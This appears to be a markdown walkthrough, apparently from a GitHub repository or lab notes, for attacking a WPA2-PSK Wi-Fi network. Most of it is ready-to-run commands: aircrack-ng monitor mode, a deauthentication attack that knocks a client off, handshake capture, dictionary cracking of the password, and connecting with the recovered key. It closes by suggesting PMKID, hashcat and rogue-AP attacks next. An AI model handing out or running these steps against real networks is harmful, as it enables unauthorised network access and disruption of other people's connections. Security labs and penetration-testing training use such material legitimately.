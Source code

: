 
# 🛡️ WPA2-PSK Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 Scan for Targets

Since WPA2 works both on 2,4Ghz and 5Ghz, check what access points (APs) are active on those frequencies.

**To recognize them check for WPA2-PSK and Cipher CCMP**

```bash
sudo airodump-ng  --band abg wlan0mon
```

From here, identify
- BSSID
- Channel
- ESSID
- Clients

use TAB and M key to highlight the each APs in order to check also associated clients. 
Ideally we want to attack some AP that has already clients connected to it.
Finally, check the channel where the AP is working and run again to get a cleaner output 

```bash
channel=6
sudo airodump-ng -c ${channel} wlan0mon
```

---

## 🎯 Capture Handshake

It's time to Capture the Handshake and for this we'll capture an **authentication handshake**.

```bash
mkdir WPA2
cd WPA2
channel=6
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```
Keep this running! **You're sniffing for the WPA handshake**.

---

## 💣 Force Handshake with Deauth

In a second terminal tab.
Send a deauthentication frame to the choosen client.
In this case it will try to re-authenticate again during our capture.

```bash
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo aireplay-ng -0 1 -e ${essid} -a ${bssid} -c ${client}  wlan0mon
```
This forces the client to disconnect and reconnect, generating the handshake.
At this point come back to terminal 1 and check if a WPA handshake is captured.

---

## 👁️ Confirm Handshake

In the top-right corner of `airodump-ng`output, look for:

```bash
WPA handshake: <BSSID>
```

If you get it, press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon:

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔓 Crack the Password

```bash
wordlist='/usr/share/john/password.lst'
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

aircrack-ng -w ${wordlist} -e ${essid} -b ${bssid} ${dumpfile}-01.cap
```

**Substitute `john wordlist` with rockyou.txt if needed.**
---

## 🔌 Connect Using wpa_supplicant

### wpa2.conf

Let's create a network configuration file.

```bash
wpa_key='starwars1'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

cat << EOF > /tmp/wpa.conf
  network={
         ssid="${essid}"
         key_mgmt=WPA-PSK
         psk="${wpa_key}"
         priority=100
         bssid=${bssid}
        }
EOF
```
We'll use this network configuration file with the tool ‘wpa_suppliant’ and connect to the target WPA2 network.

### Launch connection

In one terminal:
```bash
sudo wpa_supplicant -i wlan0 -c /tmp/wpa.conf
```

In another terminal:
```bash
sudo dhclient wlan0 -v
```
---

## ✅ Confirm Network Access

```bash
target=192.168.2.1
curl http://${target}/proof.txt
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks, hashcat brute force, or rogue APs. Your call.
